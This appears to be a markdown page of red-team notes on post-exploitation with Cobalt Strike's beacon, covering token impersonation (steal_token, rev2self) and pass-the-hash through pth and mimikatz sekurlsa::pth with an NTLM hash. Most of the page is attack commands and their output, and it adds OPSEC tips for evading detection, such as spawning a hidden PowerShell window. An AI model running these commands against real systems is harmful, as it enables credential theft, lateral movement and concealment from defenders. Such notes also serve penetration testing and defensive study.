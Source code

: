 > **Note**: If we try to inject into a process owned by other user we will need admin privs.

> **OPSEC Note**: Don't perform cross-platform injection unless is needed.
>
> `x64 -> x86` or `x86 -> x64`

# Token Impersonation

The `steal_token` command will impersonate the access token of the target process.

```
beacon> ps

PID   PPID  Name                   Arch  Session     User
---   ----  ----                   ----  -------     -----
448   796   explorer.exe            x64  1           CORP\user

beacon> steal_token 448
[+] Impersonated CORP\user
```

> **Note**: `steal_token` is good for access remote resources across network but not for local actions.

With `rev2self` will drop the impersonation.

```
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 20 bytes
```

# Pass The Hash

Is a technique which allows you to authenticate to a Windows service using the NTLM hash of a user's password.

> **Note**: This modification process requires patching of LSASS memory which is high-risk action.

```
beacon> pth CORP\user 4ffd3eabdce2e158d923ddec72de9790
```

In order to avoid detection, we can use `mimikatz` and specify a own process.

```
beacon> mimikatz sekurlsa::pth /user:user /domain:corp.local /ntlm:4ffd3eabdce2e158d923ddec72de9790 /run:"powershell -w hidden"
```

> **OPSEC Alert**: If no `/run` parameter is specified, a `cmd.exe` window will be started. To avoid that use `powershell -w hidden` to create a hidden window.

Finally use `steal_token` to impersonate the user ith the spawned process.

```
beacon> steal_token 4563
```
